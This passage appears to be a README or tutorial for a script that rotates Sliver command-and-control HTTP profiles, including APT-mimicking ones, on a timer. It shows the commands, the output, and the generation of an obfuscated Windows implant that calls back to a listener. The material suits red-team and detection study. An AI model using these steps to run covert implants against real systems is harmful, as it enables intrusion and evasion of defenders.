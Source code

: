 To choose a specific profile we can use the flag `--profile`:

```scss
root@yoon-XH695R:/opt/sliver# python3 profile-switch.py --profile amazon.profile
[*] Selected profile: /root/Malleable-C2-Profiles/Normal/amazon.profile
[*] Backed up original config to /root/.sliver/configs/http-c2.json.bak
[+] Sliver HTTP C2 config updated successfully!
```

To update the github repo use the flag `--update`:

```scss
root@yoon-XH695R:/opt/sliver# python3 profile-switch.py --update
[*] Updating Malleable-C2-Profiles ...
Already up to date.
[+] Profiles updated successfully.
```

Another key feature is `--auto-switch`. Using this flag along with `--swithc-time`, we can set intervals and automatically change Sliver HTTP profiles:

```scss
root@yoon-XH695R:/opt/sliver# python3 profile-switch.py --category APT --auto-switch --switch-time 1
[*] Malleable-C2-Profiles already exists at /root/Malleable-C2-Profiles
[*] Starting auto-switch mode: rotating every 1 minute(s)
[*] Auto-switch: selected profile: /root/Malleable-C2-Profiles/APT/ratankba.profile
[*] Backed up original config to /root/.sliver/configs/http-c2.json.bak
[+] Sliver HTTP C2 config updated successfully!
[+] Next switch in 1 minute(s)...

[*] Auto-switch: selected profile: /root/Malleable-C2-Profiles/APT/pitty_tiger.profile
[*] Backed up original config to /root/.sliver/configs/http-c2.json.bak
[+] Sliver HTTP C2 config updated successfully!
[+] Next switch in 1 minute(s)...
```

Above command will change the Sliver HTTP profile to any inside the category `APT` within every one minute. Without the `--switch-time` flag, interval is set as 60 minutes by default. 

### Validation

Now let's validate whether the changed profiles are taking affect. 

Go launch Sliver and create a Implant with HTTP listener:

```scss
[server] sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #4

[server] sliver > jobs

 ID   Name   Protocol   Port   Stage Profile 
==== ====== ========== ====== ===============
 4    http   tcp        80      
 
[server] sliver > generate --http 192.168.35.17 --os windows --arch amd64 --format exe --save /tmp

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 12s
[*] Implant saved to /tmp/DEFIANT_DRAFT.exe
```
